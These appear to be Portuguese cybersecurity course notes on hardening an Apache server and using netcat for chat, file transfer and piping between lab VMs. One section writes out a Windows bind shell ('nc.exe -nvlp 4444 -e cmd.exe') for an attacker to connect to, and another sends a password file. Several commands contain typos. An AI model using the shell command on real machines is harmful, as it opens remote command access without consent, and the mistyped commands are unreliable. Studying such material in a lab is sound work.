 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Updates/Installs
> apt install update

> apt install upgrade

> apt install apache2 apache2-utils -y

> apt install net-tools

- Iniciar o servidor:
> service apache2 start

### Notes CP01

- Entrar no diretório padrão do servidor html:
cd /var/www/html

- Vamos renomear o index.html para copial.html:
mv index.html copia.html

- Gerar a primeira falha de segurança no webservice:
- Vamos criar arquivos na pasta padrão do webservice e ver eles exibidos do lado do cliente:
touch bkp.txt cadastro.php

- criar o index.html, com o editor de texto do Linux – nano, e ver o que acontece com o webservice:
nano index.html

*RESOLVENDO PROBLEMAS DE SEGURANÇA*

1. OCULTAR AS PASTAS PARA OS CLIENTES:
nano /etc/apache2/apache2.conf

- Remover o INDEXES para não exibir mais as pastas disponíveis para os clientes.

- Restart o webservice apache:
service apache2 restart

- Alterar a configuração do banner no apache:
nano /etc/apache2/conf-enabled/security.conf

- Por padrão o apache vem com o token como o Sistema Operacional (SO) deseja e a assinatura online. 
- Mas por medida de segurança, devemos alterar para o modo de Produção.:
Trocar de "ServerTokens OS" para "ServerTokens Prod" e desligar a assinatura "ServerSignature Off"

- Subir o servidor python na porta 8080
python3 –m http.server 8080

VER LOGs do SERVIDOR APACHE
1. No apache, ele existe o caminho padrão das pastas
cd /var/log/apach2
ls
8. Vamos monitorar o servidor e ver como ele vai agir.
tail –f access.log

### Instalação e Configuração

- Instalar o Netcat:
apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321




